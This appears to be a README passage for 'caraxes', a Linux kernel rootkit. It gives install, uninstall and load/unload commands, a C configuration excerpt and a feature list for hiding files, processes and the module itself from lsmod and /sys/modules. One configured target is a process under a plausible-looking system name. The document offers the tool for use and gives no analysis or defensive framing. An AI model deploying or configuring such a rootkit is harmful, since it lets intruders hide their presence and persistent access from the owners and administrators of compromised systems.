 **Uninstallation:**
```bash
# Complete system removal
chmod +x uninstall.sh
./uninstall.sh
```

The uninstall script will:
- Unload the module from kernel
- Remove module files from system directories
- Remove auto-load configuration
- Clean local build files
- Verify complete removal

## Features

### File and Directory Hiding
- Hide files/directories containing a magic word (default: "caraxes")
- Hide files/directories owned by specific user ID (default: 1001)
- Hide files/directories owned by specific group ID (default: 21)

### Process Hiding (Enhanced)
- Hide processes by executable path (e.g., `/usr/bin/intelheaders_gnu`)
- Hide processes by command line arguments (e.g., `intelheaders_gnu -i -o`)
- Hide processes by user/group ownership
- Hide processes containing magic word in their name

### Module Stealth
- Optional module hiding from `lsmod` and `/sys/modules`
- Self-protection mechanisms

## Configuration

Edit `rootkit.h` to configure hiding behavior:

```c
// Basic hiding
char* MAGIC_WORD = "caraxes";           // Hide files/processes containing this
int USER_HIDE = 1001;                   // Hide files/processes owned by this user
int GROUP_HIDE = 21;                    // Hide files/processes owned by this group

// Process-specific hiding (NEW)
char* HIDE_PROCESS_EXE = "/usr/bin/intelheaders_gnu";     // Hide by executable path
char* HIDE_PROCESS_CMDLINE = "intelheaders_gnu -i -o";   // Hide by command line
```

## Usage

### Basic Usage
```bash
# Load the rootkit
sudo insmod caraxes.ko

# Test file hiding
ls  # Files with "caraxes" in name should be hidden

# Test process hiding
ps aux | grep <target_process>  # Should not show hidden processes

# Unload the rootkit
sudo rmmod caraxes
```
